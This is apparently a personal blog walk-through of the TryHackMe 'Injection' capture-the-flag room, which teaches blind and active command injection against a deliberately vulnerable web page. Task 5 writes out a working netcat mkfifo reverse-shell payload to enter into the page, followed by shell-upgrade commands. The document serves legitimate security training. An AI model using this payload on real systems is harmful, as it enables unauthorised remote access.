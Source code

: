 ```yaml
---
title: "Walk-through of Injection from TryHackMe"
header:
  teaser: /assets/images/2020-06-03-14-47-11.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - THM
  - CTF
  - injection
  - blind
  - Linux
---
```


## Machine Information

![injection](/assets/images/2020-06-03-14-47-11.png)

Injection is a beginner level room designed to show the dangers of badly coded web pages. Skills required are basic Linux knowledge and an understanding of the layout of its filesystem. Skills learned are exploiting vulnerable webpages to achieve command injection.
<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [TryHackMe](https://tryhackme.com/) |
| Link To Machine | [THM - Easy - Tomghost](https://tryhackme.com/room/injection) |
| Machine Release Date | 2nd June 2020 |
| Date I Completed It | 2nd June 2020 |
| Distribution used | Kali 2020.1 – [Release Info](https://www.kali.org/releases/kali-linux-2020-1-release/) |

## Tasks 1 and 2

Task 1 and 2 are introductions and don't require any questions to be answered.

## Task 3 - Blind Command Injection

### Question 3.1

Ping the box with 10 packets.  What is this command (without IP address)?

A quick look at the help for ping will give you a clue to this answer:

```text
root@kali:~# ping -h
Usage
  ping [options] <destination>

Options:
  <destination>      dns name or ip address
  -a                 use audible ping
  -A                 use adaptive ping
  -B                 sticky source address
  -c <count>         stop after <count> replies
  -D                 print timestamps
  -d                 use SO_DEBUG socket option
  -f                 flood ping
  -h                 print help and exit
  -I <interface>     either interface name or address
  -i <interval>      seconds between sending each packet
  -L                 suppress loopback of multicast packets
  -l <preload>       send <preload> number of packages while waiting replies
  -m <mark>          tag the packets going out
  -M <pmtud opt>     define mtu discovery, can be one of <do|dont|want>
  -n                 no dns name resolution
  -O                 report outstanding replies
  -p <pattern>       contents of padding byte
  -q                 quiet output
  -Q <tclass>        use quality of service <tclass> bits
  -s <size>          use <size> as number of data bytes to be sent
  -S <size>          use <size> as SO_SNDBUF socket option value
  -t <ttl>           define time to live
  -U                 print user-to-user latency
  -v                 verbose output
  -V                 print version and exit
  -w <deadline>      reply wait <deadline> in seconds
  -W <timeout>       time to wait for response
```

### Question 3.2

Try to redirect output to a file on the web server.  What alert message do you see appear?

The explanation for this task talks about the standard Bash operator for redirection, which is >. We need to try redirecting the output of the vulnerable web page to see what we get:

![redirect](/assets/images/2020-06-02-22-52-46.png)

### Question 3.3

Enter "root" into the input and review the alert.  What type of alert do you get?

Simple enough, let's do as instructed, what message do we get back:

![root](/assets/images/2020-06-02-22-54-43.png)

### Question 3.4

Enter "www-data" into the input and review the alert.  What type of alert do you get?

![www-data](/assets/images/2020-06-02-22-55-50.png)

### Question 3.5

Enter your name into the input and review the alert.  What type of alert do you get?

![pencer](/assets/images/2020-06-02-22-56-37.png)

## Task 4 - Active Command Injection

### Question 4.1

What strange text file is in the website root directory?

Let's check where we are with pwd (present working directory):

![pwd](/assets/images/2020-06-02-23-06-05.png)

We can use ls to list the current directory, but need to try and make sense of the output:

![ls](/assets/images/2020-06-02-23-07-12.png)

### Question 4.2

How many non-root/non-service/non-daemon users are there?

We look in the passwd file to see the users on the system:

![passwd](/assets/images/2020-06-02-23-09-28.png)

We need to make sense of that output and work out the number.

### Question 4.3

What user is this app running as?

Let's check who we are:

![whoami](/assets/images/2020-06-02-23-11-57.png)

### Question 4.4

What is the user's shell set as?

We can go back to the output of the passwd file to see what our shell is set to. We can also use the getent command to make it easier:

![getent](/assets/images/2020-06-02-23-16-10.png)

### Question 4.5

What version of Ubuntu is running?

There's a helpful command called lsb_release you can use here:

![lsb_release](/assets/images/2020-06-03-13-52-16.png)

### Question 4.6

Print out the MOTD.  What favorite beverage is shown?

The way MOTD works has changed over the years, and it's different depending on the distribution. There's a hint for it in the question that will help. Also [here](https://linuxconfig.org/how-to-change-welcome-message-motd-on-ubuntu-18-04-server) is a good explanation for the version of Ubuntu we are dealing with. Here's is how you could do it:

![motd](/assets/images/2020-06-03-13-57-51.png)

## Task 5 - Get The Flag

Time to find the hidden flag. You can do this using the website, but with command injection available it's more fun to get a shell on to the box. Start nc on your attack machine:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
```

Then enter this command on the vulnerable website, changing IP and port as needed:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.17.195 1234 >/tmp/f
```

![nc](/assets/images/2020-06-02-22-59-08.png)

Back on Kali we see the connection, and have our reverse shell open:

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.9.17.195] from (UNKNOWN) [10.10.197.105] 35026
/bin/sh: 0: can't access tty; job control turned off
```

First thing is get a proper interactive shell running:

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@injection:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~# stty raw -echo
```

Now we need to think how we will find the hidden flag. I started by looking around the obvious areas, like web site root, user home, but found nothing. So resorted to a guess on what extension the file might have and used **find** to look for it:

```text
www-data@injection:/$ find / -name *.txt 2>/dev/null | more
```

It's a longish list, but look through that a certain file will jump out at you.

All done. See you next time.
